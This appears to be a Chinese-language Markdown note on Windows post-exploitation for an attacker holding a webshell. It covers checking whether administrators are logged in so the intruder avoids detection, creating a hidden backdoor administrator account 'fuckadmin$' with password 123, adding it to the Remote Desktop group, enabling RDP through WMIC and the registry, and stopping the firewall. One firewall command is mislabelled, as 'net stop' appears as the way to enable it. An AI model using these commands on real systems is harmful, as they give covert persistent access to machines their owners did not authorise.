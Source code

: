 













#提权预处理



[TOC]






####执行命令查看在线用户





```

#执行命令,查看在线用户，如果有用户在线，就不要在做其他渗透了，防止被发现，等管理员下线之后再操作

query user

#发现管理员2015年11月27日登录之后没再登陆



```







![queryuser.png](C:\Users\Administrator\Desktop\提权秘籍\提权文档\提权端口方面的开启以及常用的命令\pic\queryuser.png)




#####常用的windows命令

```

ipconfig        #显示本地IP地址

whoami			#查看webshell权限

net user fuckadmin$ 123 /add    #添加用户fuckadmin$及密码为123的用户

net localgroup administrators fuckadmin$ /add  #添加fuckadmin$到管理员组

wmic path win32_terminalservicesetting where (__CLASS != "") call setallowtsconnections 1    #一键开启远程桌面命令,需要administrator及以上

注册表开启3389
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f


reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

net stop sharedaccess   #关闭防火墙 

net stop sharedaccess   #开启防火墙







```



```

whoami的安装

1)下载文件whoami.exe 6.1.7600.16385文件到您的桌面上。

(2)将whoami.exe 6.1.7600.16385文件放到提示丢失的文件的程序目录下。

(3)如果第2步是行不通的。将文件whoami.exe 6.1.7600.16385到系统目录下

C:\Windows\System (Windows 95/98/Me)

C:\WINNT\System32 (Windows NT/2000)

C:\Windows\System32 (Windows XP, Vista)

C:\Windows\System32 (Windows 7/8/2008r2)

C:\Windows\SysWOW64 (Windows 7/8/2008r2)

```





####关于远程桌面端口的查看操作





#####第一种方法查看远程端口以及开远程桌面注册表命令



```

查看远程端口命令:



REG query HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server\WinStations\RDP-Tcp /v PortNumber



返回的为16进制



HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp

    PortNumber    REG_DWORD    0xd3d



#将0xd3d由16进制转为10进制为3389

```





```

开启远程桌面命令：



REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 0 /f



```







#####第二种方法查看远程桌面端口



```

#看看有没有TermService,有的话说明开启了远程桌面端口

tasklist /svc

#执行完之后PID:640知道了PID为640

```


![tasklistsvc.png](C:\Users\Administrator\Desktop\提权秘籍\提权文档\提权端口方面的开启以及常用的命令\pic\tasklistsvc.png)


```

然后执行

netstat -ano

tcp   PID：640所对应的端口为3389

```


![netstat-ano.png](C:\Users\Administrator\Desktop\提权秘籍\提权文档\提权端口方面的开启以及常用的命令\pic\netstat-ano.png)




#####添加用户以及添加到管理员组以及远程桌面组（如果为管理员权限却登录不了远程桌面看这个）



```

#添加用户fuckadmin$及密码为123的用户

net user fuckadmin$ 123 /add

#添加fuckadmin$到管理员组

net localgroup administrators fuckadmin$ /add



#尝试一下远程桌面连接，如果连接不上，且远程桌面端口开放，那么把管理员添加到远程桌面组试一试

net localgroup "Remote Desktop Users" fuckadmin$ /add





```




